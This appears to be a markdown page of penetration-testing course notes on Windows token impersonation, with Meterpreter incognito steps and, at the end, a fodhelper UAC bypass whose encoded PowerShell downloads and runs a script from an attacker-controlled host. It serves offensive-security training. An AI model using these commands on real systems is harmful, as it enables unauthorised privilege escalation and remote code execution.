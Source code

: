 **IMPERSONATION:**

If you want to leverage the "SeImpersonatePrivilege", please refer to this [script](https://github.com/trike33/PEN-300-Code-Snippets/blob/main/Windows%20Credentials/PrintSpooferNet.cs), which is used in conjuction with [SpoolSample](https://github.com/leechristensen/SpoolSample).

However if you want to impersonate already logged in users, you can use [incognito](https://www.offsec.com/metasploit-unleashed/fun-incognito/)(through a meterpreter session) or this [powershell script](https://github.com/clymb3r/PowerShell/tree/master/Invoke-TokenManipulation).

**IMPORTANT NOTE TO TAKE IN MIND WHEN IMPERSONATING LOGONS:**  

What does matter is the logon type used to create the logon token. If a user connects using Network Logon (aka type 3 logon), the computer will not have any credentials for 
the user. Since the computer has no credentials associated with the token, it will not be possible to authenticate off-box with the token. All other logon types
should have credentials associated with them (such as Interactive logon, Service logon, Remote interactive logon, etc).

There are two types of tokens: delegate and impersonate. Delegate tokens are created for ‘interactive’ logons, such as logging into the machine or connecting to it via Remote Desktop. Impersonate tokens are for ‘non-interactive’ sessions, such as attaching a network drive or a domain logon script.
The other great things about tokens? They persist until a reboot. When a user logs off, their delegate token is reported as an impersonate token, but will still hold all of the rights of a delegate token.

TIP: File servers are virtual treasure troves of tokens since most file servers are used as network attached drives via domain logon scripts

(credit to Offsec and clymb3r for this awsome theory explanation).

**Incognito usage:**

Review this link: https://www.offsec.com/metasploit-unleashed/fun-incognito/

But in a nutshell these are the steps to take:

```
1st Migrate to a procces owned by the user we want to impersonate
2nd load incognito
3rd list_tokens -u
4th impersonate_token DEV\\trike   -> for example
5th shell or execute -f cmd.exe -i -t
```

**Invoke-TokenManipulation usage:**

Review its manual specified as comments at the first lines of the script, and this [link](https://clymb3r.wordpress.com/2013/11/03/powershell-and-token-impersonation/) that contains an overview on tokens and Windows authentication, An overview of what the script does, and problems/solutions encountered when building it and a demonstration of the script.

**UAC BYPASS IMPROVEMENT:**

From powershell throw this commands:

```
1. New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "powershell.exe -enc SQBFAFg...” -Force
2. New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyTypeString -Force
3. Execute fodhelper.exe -> if you are in a x86 process: c:\windows\sysnative\cmd.exe /c c:\windows\system32\fodhelper.exe
						             -> if you are in a x64 process: c:\windows\system32\fodhelper.exe
						
The base64 powershell encoded string was -> IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/amsi.txt')
```
